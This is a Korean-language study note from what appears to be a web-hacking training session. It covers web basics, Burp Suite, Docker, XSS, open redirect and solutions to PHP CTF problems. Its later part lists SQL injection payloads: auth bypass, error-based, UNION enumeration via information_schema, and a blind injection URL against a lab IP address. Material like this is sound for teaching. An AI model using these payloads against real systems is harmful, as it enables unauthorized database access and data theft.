

# 2024.07.11

김주원(arrester)


## 기본 웹 구조 이해

### Web

웹 서버 역할 : 정적 컨텐츠 제공

- 웹 서버 : 클라이언트에 웹 페이지와 애플리케이션을 제공하는 소프트웨어   
Apache, Ngignx, ...

- 데이터베이스 : 데이터를 체계적으로 저장하고 관리하는 시스템   
MySQL, MSSQL, ...

- WAS : 웹 애플리케이션의 실행 환경을 제공하는 서버로, 사용자 요청을 처리하고 데이터베이스와 연동하는 역할을 한다   
Tomcat, Jues, ...

## 웹 개발 이해

### 환경 구축

파이썬 설치 

VScode 설치

Burp Suite 설치

#### 프록시
프록시 서버는 사용자와 인터넷 사이의 중간 역할을 하는 서버   
Burp Proxy도 이와 같은 기능을 함

1. Proxy 탭에서 Intercept is on, off 로 프록시 사용 여부 결정
2. Open Brower 버튼을 클릭하여 내장된 브라우저를 프록시 테스트 가능

HTML, CSS, JS   
마크업 언어


### XSS
``````
script 태그는 안되는데 img 태그는 되는 이유를 생각해봐라 ?

-> script 태그 안에 scipt 태그를 넣을 수는 없으니까.   
img 태그로 우회하여 alert 띄운 것임


입력한 값이 그대로 출력된다. 입력값 검증이 안되고 있다.


### hackerone

### GET 방식
url에 저장되서 이동

### POST 방식
로그인이나 중요한 정보를 이동할 때 사용


### SSR 
Server Side Pendering   
웹 서버에 요청할 때마다 브라우저는 새로고침하여 새로운 페이지를 랜더링   
(전통적인 정적인 웹 애플리케이션 방식)

### CSR
Client Side Rendering   
자바스크립트를 이용하여 동적으로 렌더링하는 방식    
(사용자 상효작용에 따라 java scrip를 이용하여 동적으로 랜더링)


### AWS

### Docker
vmware 처럼 가상환경이지만 제한된 환경.


```docker search nginx```      
nginx 정보가 있는지 확인해봄

```docker pull nginx```   
nginx 이미지를 받아올 수 있다

```docker run -d -p 80:80 --name nginxserver nginx:lastest```   
서버 시작

```docker ps```   
서버 상태 확인

### react

## 웹 해킹

## 근본적인 취약점

### Buffer Overflow

### Logic
~php?admin=n      
~php?admin=y

money=10000   
money=100

### Hard Coding
소스코드 안에 비밀번호가 적혀져 있음

### Open Redirect
~php?returnURL=http://mobile~~~   
~php?returnURL=http://hackingattack123.kr/~~~  
~php?returnURL=javascript:alert(1)~~~   

취약점 활용
1. 피싱 사이트로 활용
2. 헤더로 세션을 이용하는 서비스인 경우 세션 탈취 가능
3. 모바일 앱 서비스도 있는 경우 딥링크 취약점에 이용
4. 악의적인 사이트 접근


근본적인 취약점 정리 :    
입력값을 제대로 검증하고 있냐!!!


### OWASP TOP 10
제일 많이 털린 방법 10가지


## 웹해킹 실습
http://54.180.139.147:9090/


---

### 2번 문제    
   
GET방식이라는 id라는 파라미터를 넣어줘야 한다.   

extract 함수가 뭔지 필수로 알아야 한다.   
```
extract()함수는 배열 속의 키값을 변수화 시켜주는 함수
extract($_GET)이라고 해버렸기 때문에
GET 방식으로 받는 정보(id)를 변수로 만들어버린다.
그래서 ?id=123 이라고 url을 통해 들어온다면
$id=123 이라고 저장된다.

변수를 선언한 이후에 extract 함수를 선언하면 
변수를 조작할 수 있음.

extract 함수 위에 있는 여러 변수들도 다 변형될 수 있음
```
preg_match 함수
```
preg_match 함수는 주어진 정규 표현식 패턴을 사용하여 문자열 내에서 일치(match)하는 부분을 찾아내는 함수

preg_match($pattern, $text, $matches)
pattern 부분에 해당하는 단어가
text 부분에 들어가 존재한다면
1을 반환해 다음으로 넘어가게 된다.
```
~.php?id=webno1_php    
라고 URL에 적게 된다면   
Flag를 얻을 수 있다.


---


### 3번 문제   


'GET 방식으로 search에 대해 존재(isset)한다면(if)' 이라는 의미

isset 함수
```
isset() 함수 변수의 존재하고 값이 존재하는지를 확인하는 함수
```
GET방식으로 받은 serch를 searchValue 변수에 저장   
pattern 변수에는 /amdin/i  
```
'/' = 정규식의 시작과 끝을 나타냄.
'i' = 대소문자를 구분하지 않는다는 플래그

/admin/ => admin 이라는 단어를 
i => 대소문자를 구분하지 않게 보겠다
/admin/i -----> Admin, ADMiN, aDmIN 등등 다 ㄱㅊ
```  
replacement 변수에는 ""(공백)    

newSearchValue 변수의 preg_repalce 함수를 이해해야 한다.   
preg_replace 함수
```
preg_replace() 함수는 문자열 내에서 정규 표현식을 사용하여 특정 패턴을 찾아 다른 문자열로 바꾸는(대체하는) 함수

preg_replace($pattern, $replacement, $input)
input 변수 안에 pattern 변수가 존재한다면 replacement 변수로 바꾼다.
```
pattern 변수
searchValue 


newSearchValue 


---
#### SQL 공부    
w3schools sql 검색해서 공부먼저 하고 있으세요

싱글쿼터를 넣고 뒤에 '--'을 넣는다면 뒤에 코드를 주석처리하기에 무효화 된다.

그럼 Response:200 주거나   
404, 500 등 여러 에러 코드를 넘겨준다

select id, pw from user where id='arrester' and pw=''    
id 부분에 ```areester'-- -``` 입력     
pw 부분의 인증 쿼리부분을 주석처리 시킴   
-> id값만 체크하고 결과 반환

---
### 4번 문제


$con = con();    
```
DB연결
```
if(preg_match('/lecture|_|\.|\(\)|or|and/i', $_GET['id'])) exit("Detected!");
```
testasdasdsadsad
```
---
### SQL Injection (Answer)

```
or 1=1 -- -
' or 1=1 -- -
" or 1=1 -- -
' or'1'='1
'and 1>1 -- -
'and 1=1 -- -
" and 1=1 -- -
|| 1=1 -- -
|| 1>1 -- -
```


아무 것도 안나와도 sql 쿼리가 동작했기 때문에 아무 것도 안나온다는 결과가 나온 거다   

## Error based SQL Injection
```
' and error_test() -- -
' and db_name() -- -
' AND extractvalue(rand(),concat(0x3a,version())) -- -
' AND updatexml(null, db_name(), null) -- -
1' and 1=(select count(*) from tablenames); -- -
1' and user_name() = 'dbo' -- -
```


## UNION SQL Injection
```
mysql TABLE 리스트
select table_name from information_schema.tables where table_schema=database()

mysql Column 리스트
select column_name from information_schema.columns where table_name='테이블이름'

' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 -- -

```


http://13.209.81.224:6060/index.php?id=admin' and (ascii(substring((select column_name from information_schema.columns where table_name='users'),1,1))>0) -- &password=123


